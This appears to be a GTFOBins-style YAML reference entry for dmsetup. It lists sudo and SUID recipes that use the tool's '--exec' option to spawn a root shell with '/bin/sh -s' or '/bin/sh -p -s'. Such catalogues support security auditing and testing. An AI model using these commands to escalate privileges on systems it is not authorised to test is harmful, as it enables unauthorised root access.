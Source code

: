 ```yaml
---
name: dmsetup
functions:
  sudo:
    - code: |
        sudo dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        sudo dmsetup ls --exec '/bin/sh -s'
  suid:
    - code: |
        ./dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        ./dmsetup ls --exec '/bin/sh -p -s'
---
```

